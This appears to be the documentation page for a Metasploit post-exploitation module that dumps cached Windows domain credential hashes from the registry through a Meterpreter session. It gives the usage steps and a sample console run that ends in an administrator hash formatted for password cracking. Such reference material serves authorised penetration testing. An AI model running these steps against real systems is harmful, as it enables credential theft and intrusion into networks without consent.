 ## Vulnerable Application

This module uses the registry to extract the stored domain hashes that have been cached as a result of a GPO setting. The default setting on Windows is to store the last ten successful logins.

## Verification Steps
  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/cachedump```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options

  **SESSION**

  The session to run this module on.


## Scenarios

### Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.6:49184) at 2019-12-11 12:51:59 -0700

  msf > use post/windows/gather/cachedump
  msf post(windows/gather/cachedump) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/cachedump) > run

    [*] Executing module against TEST-PC
    [*] Cached Credentials Setting: 10 - (Max is 50 and 0 disables, and 10 is default)
    [*] Obtaining boot key...
    [*] Obtaining Lsa key...
    [*] Vista or above system
    [*] Obtaining NL$KM...
    [*] Dumping cached credentials...
    [*] Hash are in MSCACHE_VISTA format. (mscash2)
    [+] MSCACHE v2 saved in: /root/.msf4/loot/20191211134214_default_192.168.1.6_mscache2.creds_626325.txt
    [*] John the Ripper format:
    # mscash2
    administrator:$DCC2$10240#administrator#89f253291a4b53a41c94057d644cbd1d::

    [*] Post module execution completed
  ```
